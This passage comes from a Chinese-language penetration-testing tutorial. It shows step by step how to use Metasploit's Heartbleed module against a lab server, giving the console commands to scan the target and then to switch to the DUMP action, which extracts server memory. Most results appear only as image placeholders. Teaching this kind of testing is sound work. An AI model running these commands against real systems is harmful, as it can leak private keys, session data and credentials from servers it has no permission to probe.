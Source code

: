 1.  输入`search heartbleed`来查找 Metasploit 中可用的与 Heartbleed 相关的辅助和利用，如下所示：![操作步骤...](img/image_07_058.jpg)

1.  正如我们所看到的，有一个可用于 Heartbleed 的辅助模块。我们将继续并使用以下命令进行利用：

```
          msf > use auxiliary/scanner/ssl/openssl_heartbleed      msf auxiliary(openssl_heartbleed) >

    ```

1.  输入`show options`来查看可用选项，如下所示：![操作步骤...](img/image_07_059.jpg)

1.  您需要根据目标信息更改`rhost`和`rhost`；在我们的情况下，如下所示：

```
          msf > set rhosts 172.17.0.4
          msf > set rport 443
          msf > set action SCAN

    ```

1.  设置适当的设置后，我们将在`msf`控制台上输入`run`来运行模块，输出如下：![操作步骤...](img/image_07_060.jpg)

1.  该模块已检测到此服务器容易受到 Heartbleed 漏洞的影响。我们现在将继续并将操作从`SCAN`更改为`DUMP`，使用以下命令，如下所示：![操作步骤...](img/image_07_061.jpg)

1.  更改操作后，我们将再次运行模块，输出如下：![操作步骤...](img/image_07_062.jpg)
